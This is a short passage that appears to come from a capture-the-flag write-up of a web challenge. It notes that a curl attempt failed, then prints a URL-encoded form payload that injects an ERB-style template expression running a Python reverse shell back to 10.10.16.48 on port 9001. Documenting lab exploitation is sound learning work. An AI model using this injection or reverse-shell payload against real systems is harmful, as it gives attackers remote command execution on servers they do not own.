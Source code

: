 <figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

* No luck with curl. Got a connection, but its not returning responses from input.

<figure><img src=".gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

* Python3 works!

```
category1=TEST+%0a<%25%3d`export%20RHOST%3D%2210.10.16.48%22%3Bexport%20RPORT%3D9001%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27`%25>&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

<figure><img src=".gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>
